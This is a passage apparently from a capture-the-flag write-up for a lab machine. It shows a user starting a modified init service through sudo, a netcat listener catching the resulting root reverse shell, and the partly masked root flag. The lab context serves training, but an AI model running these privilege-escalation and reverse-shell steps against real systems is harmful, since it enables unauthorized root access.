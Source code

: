 Now I’ll start the service:

```

katie@spectra /etc/init $ sudo initctl start test
test start/running, process 51446

```

And get a shell as root:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:44926.
# id
uid=0(root) gid=0(root) groups=0(root)

```

And `root.txt`:

```

# cat root.txt
d4451971************************

```